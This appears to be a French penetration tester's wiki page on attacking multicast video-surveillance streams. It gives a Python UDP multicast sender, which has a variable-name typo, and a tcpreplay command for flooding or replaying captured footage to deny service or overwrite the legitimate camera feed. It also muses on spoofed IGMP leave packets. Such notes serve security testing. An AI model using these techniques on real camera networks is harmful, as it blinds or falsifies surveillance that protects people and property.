# Vidéo

Les caméras de vidéo surveillance peuvent émettre leur flux de 2 manières :&#x20;

* Unicast
* Multicast (UDP)

## Multicast

Sur un flux multicast, il est possible d'émettre et de recevoir du flux vidéo.

#### Emission

Pour émettre sur un flux multicast, il suffit d'envoyer des paquets UDP vers une adresse IP multicast (224.0.0.0 à 239.255.255.255) et sur un port choisi.

```
import socket

MCAST_GRP = "<IP>"
MCAS_PORT = <PORT>
MULTICAST_TTL = 2

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
sock.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, MULTICAST_TTL)

sock.sendto(b"<DATA>", (MCAST_GRP, MCAST_PORT))
```

#### Réception

Pour recevoir du flux multicast, il faut s'abonner au groupe multicast de diffusion. Cet abonnement est réalisé à l'aide d'un paquet IGMP "Membership Report".

#### Déni de service

Il est possible de réaliser un déni de service sur le flux vidéo en utilisant le script présenté ci-dessus. Selon l'emplacement des attaquants, plus ou moins d'appareils de surveillance seront affectés.

Si l'attaque est réalisé en usurpant l'emplacement d'une caméra (branchement d'un TAP à une caméra) alors beaucoup, voir la totalité des appareils de surveillance seront affectés. Cependant, si l'attaquant est simplement connecté à un commutateur, seul les appareils de surveillance connectés à ce dernier risque d'être perturbés.

#### Rejeu

Il est possible de rejoué une séquence vidéo sur un flux multicast. Pour se faire, il faut enregistrer une séquence (avec wireshark par exemple) et la rejouer sur le réseau avec une fréquence d'émission supérieur à celle du flux légitime. Cela permet "d'effacer" le flux légitime.

```
sudo tcpreplay -i <INTERFACE> -tK --loop 1000 --duration=10 file.pcapng
```

_Note : Est-il possible de forcer la victime à se déconnecter en envoyant des paquets IGMPv2 "leave group" ? (cela permettrait d'éviter la superposition de flux)_

